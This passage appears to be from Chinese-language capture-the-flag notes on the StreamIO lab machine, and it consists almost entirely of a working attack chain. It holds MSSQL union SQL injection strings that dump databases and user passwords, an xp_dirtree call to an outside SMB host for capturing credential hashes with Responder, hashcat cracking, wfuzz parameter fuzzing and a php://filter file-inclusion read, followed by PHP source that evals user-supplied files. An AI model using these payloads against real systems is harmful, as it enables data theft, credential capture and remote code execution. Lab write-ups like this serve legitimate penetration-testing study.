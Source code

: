   ```bash
  # union 判断列数
  abcd' union select 1,2,3,4,5,6;-- -
  # 尝试配合 Responder
  abcd'; use master; exec xp_dirtree '\\10.10.16.5\share';-- -
  # 爆库
  abcd' union select 1,name,3,4,5,6 from master..sysdatabases;-- -
  # 显示当前的数据库
  abcd' union select 1,(select DB_NAME()),3,4,5,6;-- -
  # 爆当前数据库的表名，得到两张表 `movies`、 `users`
  abcd' union select 1,name,id,4,5,6 from streamio..sysobjects where xtype='U';-- -
  # 爆 users 表的列名
  abcd' union select 1,name,id,4,5,6 from streamio..syscolumns where id in (885578193,901578250);-- -
  # 取出重要信息，usersname 和 password
  abcd' union select 1,concat(username,':',password),3,4,5,6 from users;-- -
  # hashcat 爆破密码
  hashcat user_pass /usr/share/wordlists/rockyou.txt --user -m 0 --show
  ```

  

- 观察 url 功能点  ，参考 SteamIO 靶机

  ```
  https://streamio.htb/admin/?user=
  https://streamio.htb/admin/?staff=
  https://streamio.htb/admin/?movie=
  https://streamio.htb/admin/?message=
  ```

  是不是很想 fuzz，记得鉴权写上 cookie 字段 `PHPSESSID	"hjjd4egnalb7od8d65br48m6ph"`

  ```bash
  wfuzz -u https://streamio.htb/admin/?FUZZ= -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -H "Cookie: PHPSESSID=hjjd4egnalb7od8d65br48m6ph" --hh 1678
  ```

  ```
  000001575:   200        49 L     137 W      1712 Ch     "debug"       找到一个接口 debug
  ```

  伪协议文件包含

  ```bash
  https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=master.php
  ```

- master.php 中的部分重要源码

  ```php
  {
  if($_POST['include'] !== "index.php" )
  eval(file_get_contents($_POST['include']));
  else
  echo(" ---- ERROR ---- ");
  }
  ```
